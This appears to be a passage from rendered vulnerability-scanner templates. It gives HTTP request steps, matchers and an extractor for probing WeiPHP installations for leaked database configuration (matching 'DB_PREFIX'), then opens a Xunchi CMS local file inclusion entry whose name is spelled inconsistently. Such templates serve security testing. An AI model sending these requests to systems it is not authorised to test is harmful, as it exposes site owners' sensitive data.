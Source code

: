 ### Step - 2

```
GET /public/index.php/home/file/user_pics HTTP/1.1
Host: {{Hostname}}

```

### Step - 3

```
GET {{endpoint}} HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. https://weiphp.cn
  2. WeiPHP
  3. DB_PREFIX
- condition - and

### Extractors

**Type - regex**

- name - endpoint
- part - body
- internal - True
- regex
  1. /public/uploads/picture/(.\*.jpg)

---

# Xxunchi CMS - Local File Inclusion

## Description

- Xunyou CMS is vulnerable to local file inclusion. Attackers can use vulnerabilities to obtain sensitive information.
- severity - high
- tags - xunchi,lfi,cnvd,cnvd2020

## Requests

- Method - GET
